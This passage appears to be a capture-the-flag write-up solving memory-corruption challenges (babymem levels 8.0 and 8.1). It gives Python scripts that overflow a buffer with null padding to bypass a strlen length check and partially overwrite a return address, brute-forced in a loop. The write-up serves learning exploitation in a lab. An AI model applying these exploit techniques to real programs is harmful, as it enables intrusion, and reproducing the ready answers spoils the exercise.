 ```python
payload += target_struct
payload_len = len(payload)

def execute_attack():
    try:
        process = subprocess.Popen([file], stdin=subprocess.PIPE)
        input_data = f"{payload_len}".encode() + b"\n" + payload
        print(input_data)
        process.communicate(input=input_data)
    except Exception as e:
        print(f"error: {e}")

if __name__ == "__main__":
    print(f"Payload generato ({len(payload)} bytes).")
    print(f"Indirizzo di iniezione: {hex(target_address)}")
    execute_attack()
```

`python script8.py 36` run it until you get the fourth byte right (1 in 16 chance)

> Easier alternative: **memory.py**
>
> ```python
> import subprocess
> 
> file = "/challenge/babymem_level8.0"
> 
> payload = b"74\n"
> payload += b"\x00" * 72
> payload += b"\x89\x19"
> 
> while True:
>     process = subprocess.Popen(file, stdin=subprocess.PIPE)
>     process.communicate(payload)
> ```
>
> `python memory.py | grep pwn`
>
> This works because the check is done using strlen, which stops when it finds a string terminator like /x00

<div alt="page-break" class="page-break"></div>

## Level 8.1

put `target_address = 0x22e5`

`python script8.py 76` run it until you get the fourth byte right (1 in 16 chance)

> Easier alternative: **memory.py**
>
> ```python
> import subprocess
> 
> file = "/challenge/babymem_level8.1"
> 
> payload = b"138\n"
> payload += b"\x00" * 136
> payload += b"\xe5\x12"
> 
> while True:
>     process = subprocess.Popen(file, stdin=subprocess.PIPE)
>     process.communicate(payload)
> ```
>